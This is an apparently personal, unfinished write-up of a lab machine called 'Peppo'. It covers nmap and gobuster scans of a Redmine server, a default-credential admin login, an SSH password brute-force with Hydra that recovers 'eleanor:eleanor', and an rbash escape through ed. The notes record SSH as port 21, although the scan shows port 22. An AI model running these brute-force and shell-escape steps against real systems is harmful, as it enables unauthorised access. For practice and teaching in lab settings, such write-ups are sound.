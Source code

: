 # "Peppo" (Hard) - Incomplete

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE  SERVICE           VERSION
22/tcp    open   ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 754c0201fa1e9fcce47b52feba3685a9 (RSA)
|   256 b76f9c2bbffb0462f418c938f43d6b2b (ECDSA)
|_  256 987fb640cebbb557d5d13c65727487c3 (ED25519)
|_auth-owners: root
53/tcp    closed domain
113/tcp   open   ident             FreeBSD identd
|_auth-owners: nobody
5432/tcp  open   postgresql        PostgreSQL DB 12.3 - 12.4
8080/tcp  open   http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-favicon: Unknown favicon MD5: D316E1622C58825727E7E4E6C954D289
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
|_http-title: Redmine
| http-robots.txt: 4 disallowed entries 
|_/issues/gantt /issues/calendar /activity /search
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10000/tcp open   snet-sensor-mgmt?
|_auth-owners: eleanor
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 13 Nov 2022 20:35:42 GMT
|     Connection: close
|     Hello World
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 13 Nov 2022 20:35:36 GMT
|     Connection: close
|_    Hello World
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port10000-TCP:V=7.93%I=7%D=11/13%Time=63715518%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\
SF:nDate:\x20Sun,\x2013\x20Nov\x202022\x2020:35:36\x20GMT\r\nConnection:\x
SF:20close\r\n\r\nHello\x20World\n")%r(HTTPOptions,71,"HTTP/1\.1\x20200\x2
SF:0OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Sun,\x2013\x20Nov\x20202
SF:2\x2020:35:36\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World\n")%
SF:r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSStatusReques
SF:tTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n
SF:\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,2F,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(TLSSession
SF:Req,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\
SF:r\n")%r(Kerberos,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(SMBProgNeg,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(X11Probe,2F,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nConnection:\x20close\r\n\r\n")%r(FourOhFourRequest,71,"
SF:HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Sun,\
SF:x2013\x20Nov\x202022\x2020:35:42\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:Hello\x20World\n")%r(LPDString,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(LDAPSearchReq,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(LDAPBindReq,2F,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(SI
SF:POptions,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close
SF:\r\n\r\n")%r(LANDesk-RC,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConne
SF:ction:\x20close\r\n\r\n")%r(TerminalServer,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OSs: Linux, FreeBSD; CPE: cpe:/o:linux:linux_kernel, cpe:/o:freebsd:freebsd
```

Enumerated UDP ports:

```
Not shown: 1000 open|filtered udp ports (no-response)
```

Notes:

* 21/SSH is open -- Password?
  * Potential users:&#x20;
    * admin
    * root
    * eleanor
* Searchsploited Everything
* Directory bruteforce on both HTTP endpoints
* Nikto 8080 and 10000

## Enumeration

### Port 8080 - HTTP (WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31)))

Directory Bruteforce:

```
gobuster dir -u http://192.168.81.60:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.81.60:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/13 15:40:51 Starting gobuster in directory enumeration mode
===============================================================
/404                  (Status: 200) [Size: 459]
/500                  (Status: 200) [Size: 648]
/activity             (Status: 200) [Size: 7311]
/admin.cgi            (Status: 401) [Size: 0]
/admin.php            (Status: 401) [Size: 0]
/admin.pl             (Status: 401) [Size: 0]
/admin                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fadmin]
/favicon.ico          (Status: 200) [Size: 7886]
/groups               (Status: 302) [Size: 149] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fgroups]
/issues               (Status: 200) [Size: 19696]
/login                (Status: 200) [Size: 5011]
/logout               (Status: 302) [Size: 92] [--> http://192.168.81.60:8080/]
/my                   (Status: 302) [Size: 145] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fmy]
/news                 (Status: 200) [Size: 5361]
/projects             (Status: 200) [Size: 12258]
/queries              (Status: 406) [Size: 4768]
/robots.txt           (Status: 200) [Size: 103]
/roles                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Froles]                                                                                                              
/search               (Status: 200) [Size: 7933]
/settings             (Status: 302) [Size: 151] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fsettings]                                                                                                           
/trackers             (Status: 302) [Size: 151] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Ftrackers]                                                                                                           
/users                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fusers]                                                                                                              
Progress: 4695 / 4714 (99.60%)
```

Default Credentials:&#x20;

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

* I was able to use default credentials on the admin page
* Upon logging in, I had to change my credentials because they expired

Information Page:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">The version at the bottom also says that it is running a 2020 version</mark>

## Exploitation

### Password same as username

Hydra Bruteforce:

```
hydra -L users -P users 192.168.81.60 ssh -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-13 17:08:10
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:3/p:3), ~3 tries per task
[DATA] attacking ssh://192.168.81.60:22/
[22][ssh] host: 192.168.81.60   login: eleanor   password: eleanor
```

## Privilege Escalation

### Rbash Jail

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">We need to find a way to escape rbash</mark>

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/" %}

<mark style="color:yellow;">Escaped</mark>:

```
ed
!'/bin/bash'
```
